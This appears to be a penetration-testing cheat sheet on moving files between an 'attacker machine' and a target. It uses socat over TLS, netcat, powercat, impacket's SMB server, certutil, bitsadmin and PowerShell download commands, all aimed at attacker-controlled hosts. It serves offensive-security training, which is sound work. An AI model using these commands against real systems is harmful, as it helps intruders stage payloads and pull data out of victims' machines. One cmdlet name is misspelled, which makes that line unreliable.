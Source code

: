 ## socat: encrypted file transfer
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on machine hosting the file:
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork file:file.txt
```
### step #4: on machine receiving the file:
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0 file:file.txt,create
```
## Powershell transfer: using .Net WebClient:
```powershell
(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)
```
## file transfer with netcat
### on recieving end
```bash
nc -nlvp 443 > incoming.exe
```
### on sending end
```bash
nc -nv <LHOST> 443 < /path/to/file_to_be_sent.exe
```
## SMB file transfer with impacket's `smbserver.py`
### start server on kali
```bash
smbserver.py <SHARE_NAME> `pwd` -smb2support
```
### copy/move file from share
```shell
xcopy \\<LHOST>\<SHARE_NAME>\<FILE_NAME> c:\windows\temp
```
### copy/move file to share
```shell
xcopy c:\windows\temp\test.txt \\<LHOST>\<SHARE_NAME>\test.txt
```
## using `certutil.exe`
```shell
certutil -f -urlcache HTTP://<LHOST>:<LPORT>/<FILE_NAME> c:\windows\temp\<FILE_NAME>
```
## using `bitsadmin`
```shell
bitsadmin /transfer myDownloadJob /download /priority high http://<LHOST>:<LPORT>/<FILE> c:\windows\temp\<FILE_NAME>
```
## using powershell `Start-BitsTransfer`
```powershell
Start-BitsTrasnfer -Source "HTTP://<LHOST>:<LPORT>/<FILE_NAME>" -Destination c:\windows\temp\<FILE_NAME>
```
## using powercat
### on receiving end:
```bash
nc -lnvp 443 > incoming.exe
```
### on sending end:
```powershell
powercat -c 10.11.0.4 -p 443 -i <PATH\TP\FILE>
```